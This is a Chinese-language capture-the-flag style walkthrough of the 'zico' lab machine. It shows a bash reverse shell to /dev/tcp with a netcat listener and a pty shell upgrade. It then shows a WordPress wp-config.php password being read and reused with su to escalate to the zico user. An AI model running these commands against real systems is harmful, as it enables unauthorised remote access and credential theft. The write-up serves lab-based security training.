 ## 反弹shell

用 /bin/bash -c 接参数的方法反弹

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.103/1234 0>&1'
```

```bash
└─# nc -lvvp 1234
listening on [any] 1234 ...
connect to [192.168.0.103] from 192.168.0.102 [192.168.0.102] 60703
bash: no job control in this shell
www-data@zico:/var/www$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@zico:/var/www$ 
```

# 提权

## 提权到zico用户

翻看 `/home/zico` 目录下的文件，找到其 wordpress 站下的配置文件，发现密码信息

```bah
www-data@zico:/home/zico/wordpress$ cat wp-config.php | grep define
cat wp-config.php | grep define
define('DB_NAME', 'zico');
define('DB_USER', 'zico');
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
define('DB_HOST', 'zico');
define('DB_CHARSET', 'utf8');
define('DB_COLLATE', '');
define('AUTH_KEY',         'put your unique phrase here');
define('SECURE_AUTH_KEY',  'put your unique phrase here');
define('LOGGED_IN_KEY',    'put your unique phrase here');
define('NONCE_KEY',        'put your unique phrase here');
define('AUTH_SALT',        'put your unique phrase here');
define('SECURE_AUTH_SALT', 'put your unique phrase here');
define('LOGGED_IN_SALT',   'put your unique phrase here');
define('NONCE_SALT',       'put your unique phrase here');
define('WP_DEBUG', false);
if ( !defined('ABSPATH') )
	define('ABSPATH', dirname(__FILE__) . '/');
```

```
zico:sWfCsfJSPV9H3AmQzw8
```

su 提权

```bash
www-data@zico:/home/zico/wordpress$ su zico
su zico
Password: sWfCsfJSPV9H3AmQzw8

zico@zico:~/wordpress$ whoami
whoami
zico
```
